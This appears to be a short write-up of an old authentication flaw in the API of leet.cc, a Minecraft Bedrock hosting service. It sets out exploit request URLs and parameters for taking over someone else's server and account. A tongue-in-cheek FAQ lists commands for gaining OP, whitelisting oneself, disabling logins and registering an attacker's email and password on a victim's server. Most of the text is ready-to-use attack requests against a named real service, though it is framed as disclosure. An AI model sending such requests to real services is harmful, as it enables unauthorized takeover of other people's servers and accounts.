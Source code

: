 ```yaml
---
title: leet.cc account takeover (old bug)
---
```


<https://leet.cc> is an minecraft bedrock server hosting provider.  
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://www.databreaches.net/leet-cc-data-hacked-in-february-publicly-dumped/> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂but then this is `leet.cc`.

# Methodology
Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.  
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.  
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>` 
The user ID was the user's email address or their device ID which used to be optional.

# The exploit
In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂
## I want OP!
- `<command>` is `changeOP`
- `<commandParameter>` is your in-game name
## I'm not whitelisted. What should I do?
- `<command>` is `changeWhitelistPlayers`
- `<commandParameter>` is your in-game name
## The server name is missing a duck emoji, no problem!
- `<command>` is `changeServerName`
- `<commandParameter>` is 🦆
## This old login using /login <password> is too annoying.
- Just set `setUserRegistration` to off!

# I wanted an account takeover!
Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`
